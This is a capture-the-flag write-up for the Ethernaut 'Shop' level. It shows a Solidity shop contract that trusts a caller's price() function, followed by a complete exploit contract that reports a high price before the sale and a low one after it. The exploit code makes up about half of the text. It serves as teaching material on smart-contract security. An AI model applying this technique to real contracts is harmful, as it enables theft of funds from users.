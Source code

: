 # Ethernaut 21: Shop - Interfaces

Another Interface challenge as the Elevator challenge - you cannot rely on the implementation

## The Task Intro

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## The Solution

The shop contract with the buy function relies on an implementation of the price function. Here again we use a smart contract to call the buy function.

Because the buy function uses msg.sender as interface implementation, we can deliver our smart contract as implementation.

To trick the smart contract we first give the price function a price higher than is written in the shop of 110. When setting the price in the second implementation we give a lower price back, paying only 5.

;-)

```apache
interface Buyer {
  function price() external view returns (uint);
}


contract Exploit is Buyer{
    Shop shop;
    uint256 priceStorage = 110;

    constructor(Shop _shop){
        shop = _shop;
    }
    function price() external override view  returns (uint){
        if(!shop.isSold()){
            return priceStorage;
        }else{
            return 5;
        }
    }

    function attack() external {
        shop.buy();
    }
}
```
